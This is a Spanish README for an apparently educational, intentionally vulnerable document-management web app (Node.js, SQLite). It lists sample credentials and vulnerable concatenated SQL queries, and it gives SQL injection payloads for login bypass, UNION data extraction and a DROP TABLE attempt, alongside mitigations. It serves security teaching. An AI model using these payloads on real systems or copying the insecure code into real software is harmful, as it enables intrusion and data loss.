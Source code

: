 # 📄 Gestor Docs G3

**Aplicación web educativa para demostración de vulnerabilidades de seguridad**

---

## 🎯 **Descripción**

Gestor Docs G3 es una aplicación web de gestión de documentos PDF desarrollada con fines educativos. La aplicación incluye **vulnerabilidades intencionalmente implementadas** para demostrar técnicas de explotación y conceptos de seguridad informática.

⚠️ **ADVERTENCIA**: Esta aplicación contiene vulnerabilidades de seguridad **intencionalmente implementadas** para fines educativos. **NUNCA** usar en producción.

---


### **Estructura del proyecto:**
```
📁 backend/
  📁 api/          # Endpoints modularizados
    📄 auth.js     # Autenticación (VULNERABLE)
    📄 usuarios.js # Gestión usuarios (VULNERABLE)
    📄 documentos.js # Gestión archivos
    📄 comentarios.js # Sistema comentarios
  📁 db/           # Base de datos SQLite
  📁 files/        # Archivos PDF subidos
  📄 server.js     # Servidor Express principal

📁 frontend/
  📁 assets/       # CSS y recursos estáticos
  📁 components/   # Componentes reutilizables
  📁 pages/        # Páginas HTML

📄 init_db.js     # Script inicialización BD
📄 package.json   # Dependencias del proyecto
```

### **Tecnologías:**
- **Backend**: Node.js + Express
- **Base de datos**: SQLite3
- **Frontend**: HTML5 + CSS3 + JavaScript vanilla
- **Autenticación**: Sesiones con cookies
- **Subida archivos**: Multer

---

## 🚀 **Instalación y uso**

### **Requisitos previos:**
- Node.js 16+ 
- npm

### **Pasos de instalación:**

1. **Clonar el repositorio:**
```bash
git clone https://github.com/tu-usuario/segweb-g3-gestor-documentos.git
cd segweb-g3-gestor-documentos
```

2. **Instalar dependencias:**
```bash
npm install
```

3. **Inicializar base de datos:**
```bash
npm run initdb
```

4. **Ejecutar la aplicación:**
```bash
npm start
```

5. **Acceder a la aplicación:**
```
http://localhost:3000
```

### **Usuarios de prueba:**
| Usuario     | Contraseña  | Rol   |
|-------------|-------------|-------|
| admin       | admin123    | admin |
| user        | user123     | user  |
| manager     | manager123  | user  |
| guest       | guest123    | user  |
| superadmin  | super123    | admin |

---

## 🔴 **VULNERABILIDADES IMPLEMENTADAS**

> ⚠️ **Disclaimer**: Las siguientes vulnerabilidades están implementadas **únicamente para fines educativos**. El objetivo es aprender sobre seguridad web y técnicas de explotación en un entorno controlado.

### **1. 💉 SQL Injection**

#### **🎯 Ubicación:**
- **Login** (`/api/auth/login`)
- **Búsqueda de usuarios** (`/api/usuarios/buscar`)

#### **📝 Descripción:**
Las consultas SQL utilizan concatenación directa de strings sin sanitización, permitiendo inyección de código SQL malicioso.

#### **🔓 Código vulnerable:**
```javascript
// Login vulnerable
const query = `SELECT * FROM usuarios WHERE username = '${username}' AND password = '${password}'`;

// Búsqueda vulnerable  
const query = `SELECT * FROM usuarios WHERE username = '${user}'`;
```

#### **💀 Payloads de explotación:**

**Login bypass:**
```sql
Usuario: admin'--
Contraseña: cualquiera
```

**Ver todos los usuarios:**
```sql
Búsqueda: ' OR '1'='1'--
```

**Filtrar por rol admin:**
```sql
Búsqueda: ' OR rol='admin'--
```

**Extraer estructura de la BD:**
```sql
Búsqueda: ' UNION SELECT name, '', '', type FROM sqlite_master WHERE type='table'--
```

**Ver todos los comentarios:**
```sql
Búsqueda: ' UNION SELECT archivo, autor, comentario, 'comentario' FROM comentarios--
```

**Intentar eliminar tabla (puede fallar por permisos):**
```sql
Búsqueda: '; DROP TABLE usuarios; --
```

#### **🛡️ Mitigación:**
Usar consultas parametrizadas:
```javascript
db.get('SELECT * FROM usuarios WHERE username = ? AND password = ?', [username, password], callback);
```

---

### **2. 🔓 Vulnerabilidades de autenticación**

#### **🎯 Ubicación:**
- Sistema de sesiones
- Control de acceso a rutas

#### **📝 Problemas identificados:**
- Sesiones almacenadas en memoria (se pierden al reiniciar)
- No hay expiración de sesiones
- Contraseñas almacenadas en texto plano
- Session ID predecible (uso de crypto básico)

#### **💀 Posibles explotaciones:**
- **Session hijacking** si se obtiene el cookie
- **Fuerza bruta** en contraseñas débiles
- **Escalación de privilegios** modificando rol en sesión

---

### **3. 📂 Vulnerabilidades de subida de archivos**

#### **🎯 Ubicación:**
- Endpoint `/api/documentos/upload`

#### **📝 Problemas identificados:**
- Validación solo por MIME type (bypasseable)
- No hay validación de contenido del archivo
- Archivos almacenados con nombre original
- Falta límite de tasa de subida

#### **💀 Posibles explotaciones:**
- Subir archivos maliciosos con extensión PDF
- Path traversal en nombres de archivo
- DoS por subida masiva de archivos

---

### **4. 🌐 Exposición de información**

#### **🎯 Ubicación:**
- Búsqueda de usuarios devuelve contraseñas
- Logs del servidor muestran consultas SQL
- Errores de BD expuestos al frontend

#### **💀 Información expuesta:**
- Contraseñas en texto plano
- Estructura de la base de datos
- Detalles técnicos en errores


